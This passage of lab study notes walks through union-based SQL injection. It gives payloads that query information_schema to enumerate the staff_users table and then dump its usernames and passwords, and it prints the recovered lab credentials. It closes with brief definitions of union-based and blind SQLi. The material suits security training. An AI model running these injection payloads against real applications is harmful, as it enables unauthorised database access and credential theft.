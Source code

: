 Article ID: 1

article,staff\_users

* The aim is to discover Martin's password so the staff\_users table is what is of interest.
* Utilise the information\_schema database again to find the structure of this table using the query:

0 UNION SELECT 1,2,group\_concat(column\_name) FROM information\_schema.columns WHERE table\_name = 'staff\_users'

* The information to retrieve has changed from table\_name to column\_name, the table being queried in the information\_schema database has changed from tables to columns, and rows are being searched where the table\_name column has a value of staff\_users.
* The query results provide three columns for the staff\_users table: id, password, and username:

2

Article ID: 1

id,username,password

* Use the username and password columns for the next query to retrieve the user's information:

0 UNION SELECT 1,2,group\_concat(username,':',password SEPARATOR '\<br>') FROM staff\_users

* Use the group\_concat method to return all of the rows into one string and to make it easier to read.
* Add ,':', to split the username and password from each other.
* Use the HTML \<br tag that forces each result to be on a separate line to make for easier reading instead of being separated by a comma.

2

Article ID: 1

admin:p4ssword

martin:pa\$$word

jim:work123

#### **Union-Based SQL Injection** <a href="#a83x2nfedft" id="a83x2nfedft"></a>

* Utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page.
* This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

### **Blind SQL Injection - Authentication Bypass** <a href="#i1woajaag4ae" id="i1woajaag4ae"></a>

* Blind SQLi is when there is little to no feedback to confirm whether injected queries were successful or not.
* This is because the error messages have been disabled, but the injection still works regardless.
* All is needed is that little bit of feedback to successfully enumerate a whole database.

#### **Authentication Bypass** <a href="#s06wnry3j6pl" id="s06wnry3j6pl"></a>
